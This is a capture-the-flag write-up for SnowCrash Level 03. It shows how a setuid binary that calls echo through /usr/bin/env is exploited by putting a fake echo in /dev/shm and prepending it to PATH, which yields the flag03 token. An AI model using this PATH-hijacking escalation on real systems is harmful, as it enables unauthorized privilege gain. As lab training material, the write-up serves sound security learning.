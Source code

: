 # Level 03

## Vulnerability

## Context
In our home directory, we find a binary. 

## Solution
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
Here we see that when we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ cd bin; ./getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /dev/shm/echo
level03@SnowCrash:~$ chmod +x /dev/shm/echo
level03@SnowCrash:~$ PATH=/dev/shm:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
